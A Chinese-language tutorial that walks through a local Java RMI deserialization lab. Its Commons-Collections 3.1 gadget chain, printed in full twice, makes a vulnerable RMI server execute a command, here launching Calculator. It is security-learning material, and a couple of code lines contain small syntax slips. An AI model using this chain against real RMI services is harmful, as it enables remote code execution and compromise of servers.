

# RMI反序列化基础

## 0x01 前言

具体细节，有待后续更新

请下载以下文件：

commons-colliections-3.1.jar：[下载](https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar)

jdk1.7：[下载](https://www.oracle.com/hk/java/technologies/javase/javase7-archive-downloads.html)

## 0x02 环境配置

RMI反序列化漏洞发生条件：

- jdk版本1.7
- 使用具有漏洞的Commons-Collections3.1组件
- RMI提供的数据有Object类型（因为攻击payload就是Object类型）

让我们跟随以下进行一次成功的攻击，然后再逐步介绍攻击过程的细节。

根据目录树配置以下目录结构

```sh
j7ur8@localhost Desktop % Tree JavaLearn
JavaLearn
├── lib
│   └── commons-collections-3.1.jar
└── src
    └── RMI
        ├── Client.java
        └── Server.java
```

Client.java：

```java
package RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMI.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.dowork(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

Server.java：

```java
package RMI;

import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

public class Server {

    public interface User extends Remote {
        public String name(String name) throws RemoteException;
        public void say(String say) throws RemoteException;
        public void dowork(Object work) throws RemoteException;
    }

    public static class UserImpl extends UnicastRemoteObject implements User{

        protected UserImpl() throws RemoteException{
            super();
        }
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void dowork(Object work) throws  RemoteException{
            System.out.println("your work is " + work);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("the rmi is running ...");
    }
}
```

## 0x03 漏洞浮现

进入到src目录下执行以下命令：

```bash
javac -cp .:../lib/commons-collections-3.1.jar RMI/Server.java
java -cp .:../lib/commons-collections-3.1.jar RMI/Server      
#the rmi is running ...
```

在src目录下再开一个命令行窗口，执行以下命令：

```bash
javac -cp .:../lib/commons-collections-3.1.jar #RMI/Client.java
java -cp .:../lib/commons-collections-3.1.jar RMI/Client     
#lala
```

成功弹出计算机



## 0x04 过程细节

RMI基础、代码细节、执行细节。

### RMI基础

RMI全称Remote Method Invocation，是Java独立实现的一种远程调用机制，依赖JRMP（Java Remote Message Protocol）协议。协议规定了客户端和服务端通信要满足的规范。

RMI分为三个主体部分：

- Client-客户端：规定了客户端调用服务端的方法；向服务端发送请求。
- Server-服务端：提供可调用方法，执行客户端请求，返回结果。
- Registry-注册中心：本质是一个map，对客户端发送的请求进行分发。

### 代码细节

服务端代码包含三个层面：

- 接口定义
- 接口实现
- 接口调用

在环境配置一节Servier.java文件的代码中，我们采用了内部类的写法包含了上述三个层面的所有代码。实际操作上，我们可以把上述代码分开成文，如下图目录树：

```
JavaLearn
├── lib
│   └── commons-collections-3.1.jar
└── src
    └── RMI
        ├── Client.java
        ├── Server.java
        ├── User.java
        └── UserImpl.java
```

**接口定义**（User.java）代码如下：

```java
package RMI;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface User extends Remote {
    public String name(String name) throws RemoteException;
    public void say(String say) throws RemoteException;
    public void dowork(Object work) throws RemoteException;
}
```

这个接口

- 使用public声明，否则客户端在尝试加载实现远程接口的远程对象时会出错。（如果客户端、服务端放一起没关系）
- 需要继承Remote接口
- 接口的方法需要生命java.rmi.RemoteException报错
- 服务端实现这个远程接口
- 定义了远程可调用的全部方法

**接口实现**（UserImpl.java）代码如下：

```java
package RMI;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class UserImpl extends UnicastRemoteObject implements User{
		#构造函数
    protected UserImpl() throws RemoteException{
        super();
    }
    public String name(String name) throws RemoteException{
        return name;
    }
    public void say(String say) throws  RemoteException{
        System.out.println("you speak" + say);
    }
    public void dowork(Object work) throws  RemoteException{
        System.out.println("your work is " + work);
    }
}
```

这个实现类需要：

- 实现接口文件（User.java）中interface User定义的的全部方法
- 继承UnicastRemoteObject类，貌似继承了之后会使用默认socket进行通讯，并且该实现类会一直运行在服务器上（如果不继承UnicastRemoteObject类，则需要手工初始化远程对象，在远程对象的构造方法的调用UnicastRemoteObject.exportObject()静态方法）
- 构造函数需要抛出一个RemoteException错误
- 实现类中使用的对象必须都可序列化，即都继承java.io.Serializable

**接口调用**（Server.java）代码如下：

```java
package RMI;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("the rmi is running ...");
    }
}
```

》第8行，定义了本地服务绑定的地址

》第9行，实例化远程对象实例（UserImpl）

》第10行，创建注册中心，调用Registry（注册中心）启动1099端口

》第11行，绑定对象实例到Registry（注册中心）

> 注册中心和服务端一般是不分离的。

运行Servrver.java代码即可启动一个RMI服务。

------

客户端代码如下：

```java
package RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

import java.rmi.Naming;
import RMI.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.dowork(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

》第3-11行，反射执行命令需要用到的库

》第19行，获取远程调用实例

》第23行，调用dowork函数，发送恶意payload给远程接口，将造成反序列化弹出计算机。

## 0x05 补充

collections库反序列化将后续再进行学习。

## 0x06 参考

- https://xz.aliyun.com/t/6660#toc-3
- https://xz.aliyun.com/t/9261
- https://xz.aliyun.com/t/7932#toc-5
- https://xz.aliyun.com/t/7932#toc-5